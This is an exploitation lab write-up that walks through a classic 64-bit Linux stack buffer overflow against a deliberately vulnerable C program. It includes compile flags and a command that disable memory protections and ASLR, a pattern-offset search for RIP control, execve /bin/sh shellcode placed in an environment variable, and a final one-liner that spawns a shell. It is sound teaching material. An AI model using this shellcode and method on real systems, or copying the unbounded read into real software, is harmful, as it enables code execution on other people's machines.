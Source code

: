 # 64-bit Stack-based Buffer Overflow

The purpose of this lab is to understand how to get control of the RIP register when dealing with classic stack-based buffer overflow vulnerabilities in x64 bit Linux systems.

This lab is based on a great post [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/) and the code is borrowed from the same.

{% hint style="info" %}
Note that the vulnerable program is deliberately compiled without memory protections and the ASLR on Linux must be disabled for the lab to work.
{% endhint %}

See related notes:

{% page-ref page="../../../miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame.md" %}

## Vulnerable Code

In this lab, we're going to be using the below vulnerable program:

{% tabs %}
{% tab title="vulnerable.c" %}
```c
// code from https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}
```
{% endtab %}
{% endtabs %}

We can compile the above code with:

```python
gcc -fno-stack-protector -z execstack vulnerable.c -o vulnerable
```

{% hint style="warning" %}
Don't forget to disable the ASLR:

```text
echo 0 > /proc/sys/kernel/randomize_va_space  
```
{% endhint %}

## Getting Control of RIP

Let's try overflow the program by sending some garbage to it. First of, let's generate the said garbage data - 200  AAAAs...:

```python
python -c "print 'A'*200" > in.bin
```

Let's now run the vulnerable program, feed the garbage file to it and observe what happens:

```python
gdb vulnerable
r < in.bin
```

![Vulnerable program crashes when the garbage is fed to it, but the RIP is not overwritten](../../../.gitbook/assets/image%20%28898%29.png)

Note from the above screenshot the following key aspects:

* The stack has been overflowed with As \(lime\);
* RIP register has not been overflowed although it would have been, had this been a 32-bit binary. On the same note, we can indeed see that the return address \(RSP + 0 as `ret` instruction will pop this value and jump to it\) has been filled with As, so why are we not in control of the RIP register?

### Why is RIP not overflowed?

The reason RIP was not overflowed \(technically it was, as we saw in the above screenshot\), is because the `AAAAAAAA` \(`0x4141414141414141`\) is not a canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address that current CPUs do not support. The highest memory that programs can address is 48-bit wide addresses that are capped at `0x00007FFFFFFFFFFF` - this is to prevent complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of the 64-bit address space. 

### Controlling RIP

Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide address `0x4141414141414141` \(our garbage data\) was translated to a 48-bit canonical address by masking off the 2 highest bytes:

```python
// WinDBG
0:000> ? 0x4141414141414141 & 0x00007FFFFFFFFFFF
Evaluate expression: 71748523475265 = 00004141`41414141
```

Leaving us a canonical address:

$$
0x0000414141414141
$$

Let's see if we can make the program crash and make the RIP point to `0x0000414141414141`. Before we can do this, we need to find out how much garbage As we need to send in before we can place `0x0000414141414141` onto the stack, so that we can take over the RIP.

In gdb \(with peda\), let's create a pattern of 200 characters:

```python
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

...and feed that pattern to the vulnerable program, observe the crash, and find the offset where we should place our preferred RIP value:

![RIP offset is 104](../../../.gitbook/assets/image%20%28876%29.png)

From the above screenshot, we can see that our pattern `A7AAMAAiA...` is visible at the top of the stack -  this value would be popped from the stack and jumped to by the `ret` instruction and we are interested in knowing how deep in the stack it is. To work it out, we can use another gdb-peda command like so:

```python
gdb-peda$ pattern_offset A7AAMAAiA
A7AAMAAiA found at offset: 104
```

We can now see that the offset of interest is 104, so let's test it by generating a new garbage file:

```python
python -c "print 'A'*104 + '\x41\x41\x41\x41\x41\x41\x00\x00'" > in.bin
```

Note that our garbage data will now contain 104 As and a canonical return address `0x0000414141414141` \(in reverse due to little-endianness\). Sending this data to the vulnerable program reveals that we have now taken control of the RIP register:

![We can now control RIP](../../../.gitbook/assets/image%20%28887%29.png)

## Exploitation

We'd like the vulnerable program to spawn a shell for us when exploited, so we will place the [shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php) in the environment variable `PWN` like so:

```python
export PWN=`python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```

We now need to find the stack address in the vulnerable program where the PWN environment variable will be located. For this, we can use the following program:

{% tabs %}
{% tab title="getenvvar.c" %}
```cpp
// code by Jon Erickson, page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition
// compile: gcc getenvvar.c -o getenvvar
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
{% endtab %}
{% endtabs %}

Run it like so:

```python
./getenvvar PWN ./vulnerable
```

...to learn that `PWN` environment variable will be on the stack at `0x7fffffffefa8`:

![](../../../.gitbook/assets/image%20%28879%29.png)

Let's now convert `0x7fffffffefa8` to its canonical \(2 highest bytes masked off\) form, which equals to `0x0000ffffefa8`. We can now try to exploit the vulnerable program by sending the garbage data that now includes the `PWN` environment variable address as the return address at offset 104 like so:

```python
(python -c "print 'A'*104 + '\xa8\xef\xff\xff\xff\x7f\x00\x00'"; cat) | ./vulnerable
```

![Vulnerable program is exploited and results in a new shell](../../../.gitbook/assets/x64-stack-overflow.gif)

## References

{% embed url="https://www.ret2rop.com/2018/08/stack-based-buffer-overflow-x64.html" %}

{% embed url="https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/" %}

{% embed url="https://medium.com/@\_neerajpal/explained-difference-between-x86-x64-disassembly-49e9678e1ae2" %}

[https://www.cs.tufts.edu/comp/40/docs/x64\_cheatsheet.pdf](https://www.cs.tufts.edu/comp/40/docs/x64_cheatsheet.pdf)

